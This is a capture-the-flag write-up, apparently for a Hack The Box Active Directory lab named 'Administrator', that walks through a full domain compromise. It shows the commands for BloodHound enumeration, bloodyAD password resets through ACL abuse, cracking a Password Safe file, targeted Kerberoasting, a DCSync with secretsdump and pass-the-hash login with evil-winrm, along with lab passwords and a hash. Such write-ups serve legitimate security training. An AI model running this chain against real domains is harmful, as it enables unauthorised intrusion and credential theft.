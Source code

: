 ```yaml
---
description: 'Username: Olivia Password: ichliebedich'
---
```


# 📦 Administrator

I start off by scanning for open ports:

<figure><img src="../../../.gitbook/assets/image (10) (1) (2).png" alt=""><figcaption></figcaption></figure>

I quickly get a list of usernames:

<figure><img src="../../../.gitbook/assets/image (11) (1) (2).png" alt=""><figcaption></figcaption></figure>

And the groups on the domain:

<figure><img src="../../../.gitbook/assets/image (12) (1) (2).png" alt=""><figcaption></figcaption></figure>

the creds that were given to us have winrm rights so let's connect then we launch bloodhound python:

```
bloodhound-python -u Olivia -p 'ichliebedich' -c All -d administrator.htb -ns 10.129.107.16
```

And start a bloodhound instance:

```
neo4j console
```

while launching our bloodhound collector we see a new host that we can add to hosts ->

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

and i launch bloodhound without root!!

I mark user olvia as owned and continue by looking at the node info of olivia and seeing she as First degree object control GenericAll over michael:

<figure><img src="../../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

and michael has ForceChangePassword over Benjamin:

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

Knowing this we can install bloodyAD and abuse those rights:

<figure><img src="../../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

```
bloodyAD -u "olivia" -p "ichliebedich" -d "Administrator.htb" --host "10.129.107.16" set password "Michael" "Password1"
bloodyAD -u "Michael" -p "Password1" -d "Administrator.htb" --host "10.129.107.16" set password "Benjamin" "Password1"
```

I'll have to test this tool later on:

{% embed url="https://github.com/CravateRouge/autobloody" %}

Now we can confirm we have succesfully changed the password:

<figure><img src="../../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

So i restart my enumeration process with these credentials and end up connecting to an FTP instance with the creds of Benjamin

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

After googling the extension, i found the tool pwsafe2john and used it to get a hash out of this file:

```
pwsafe2john Backup.psafe3 > backuphash.txt
john backuphash.txt
```

Which gave me password: `tekieromucho`

Then i started to look how to open the file:

{% embed url="https://installati.one/install-passwordsafe-kalilinux/#google_vignette" %}

Then i upload the file and see 3 users:

<figure><img src="../../../.gitbook/assets/image (2) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

I'm able to see the passwords just like that:

<figure><img src="../../../.gitbook/assets/image (3) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

I quickly see which one is the path to follow:

<figure><img src="../../../.gitbook/assets/image (4) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

On bloodhound we see that emily has GenericWrite on Ethan:

<figure><img src="../../../.gitbook/assets/image (5) (1) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

I start iff looking at some attack vectors:

{% embed url="https://www.thehacker.recipes/assets/DACL%20abuse%20mindmap.CnS4bNaY.png" %}

I try GetUserSpns but it does not work, then i find a tool from shutdown that tries to Set an SPN and abuse it for us:

{% embed url="https://github.com/ShutdownRepo/targetedKerberoast/blob/main/targetedKerberoast.py" %}

<figure><img src="../../../.gitbook/assets/image (6) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

i had the following problem: \[!] Kerberos SessionError: KRB\_AP\_ERR\_SKEW(Clock skew too great) that happens when the time difference between your **attacking machine** and the **Domain Controller (DC)** is too large (usually more than 5 minutes). so i had to sync my time with DC:

```
sudo ntpdate -u 10.129.107.16
python targetedKerberoast.py -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "administrator.htb" --dc-ip 10.129.107.16
```

Then i put my hash in a file and crack it with john and end up with `limpbizkit`

<figure><img src="../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

We are at the last step of this box i thing and we have DCsync rights on Administrator.htb so let's have fun:

{% embed url="https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync#dcsync" %}

<figure><img src="../../../.gitbook/assets/image (8) (1) (2) (1).png" alt=""><figcaption><p>secretsdump.py -outputfile 'dcsync.txt' administrator.htb/ethan:limpbizkit@10.129.107.16</p></figcaption></figure>

I can now do passthehash to get a session:

<figure><img src="../../../.gitbook/assets/image (9) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

```
evil-winrm -i 10.129.107.16 -u administrator -H 3dc553ce4b9fd20bd016e098d2d2fd2e
```
